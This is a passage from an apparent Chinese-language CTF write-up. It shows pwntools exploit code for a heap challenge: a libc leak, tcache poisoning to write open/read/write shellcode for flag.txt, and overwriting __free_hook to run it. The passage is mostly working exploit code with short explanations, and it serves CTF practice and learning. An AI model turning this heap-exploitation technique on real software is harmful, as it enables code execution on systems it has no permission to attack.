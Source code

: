 ```
edit(7,padding + 'a'*(8+6)+'bb')

show(7)
io.recvuntil('aabb')
libc_info=u64(io.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
print "libc_info----->" + hex(libc_info)
libc_addr=libc_info-0x3ebca0
print "libc_addr----->" + hex(libc_addr)
malloc_hook=libc_addr+libc.sym['__malloc_hook']
free_hook=libc_addr+libc.sym['__free_hook']

print "malloc_hook----->" + hex(malloc_hook)
print "free_hook----->" + hex(free_hook) 
```

之后可以常规的按照劫持tcache的做法，写道malloc_hook以及目标地址上
首先是写入shellcode，这里也复习了一下shellcraft，又忘记格式了。当然自己写汇编是最好的。

```
mmap_addr=0x23330000

shellcode=""
shellcode+=asm(shellcraft.open("flag.txt"))
shellcode+=asm(shellcraft.read(3,mmap_addr+0x100,0x100))
shellcode+=asm(shellcraft.write(1,mmap_addr+0x100,0x100))

edit(7,padding+p64(0)+p64(0xa1))
add(0x500,padding)
add(0x500,padding)
delete(0)
edit(1,padding+p64(0)+p64(0xa1)+p64(mmap_addr))

add(0x500,padding)
add(0x500,shellcode.ljust(0x90,'a')) 
```

之后呢，再修改tcache下一个地址为free_hook并写入0x23330000即可，方法和上面是一样一样的。

```
padd2='a'*0x20
add(0x500,p64(0xdeadbeef).ljust(0x20,'a'))

add(0x500,padd2)
delete(4)
edit(3,p64(0)*3+p64(0x31)+p64(free_hook))

add(0x500,padd2)
delete(9)

add(0x500,padd2)
edit(5,p64(mmap_addr)) 
```

之后就delete就可以了。
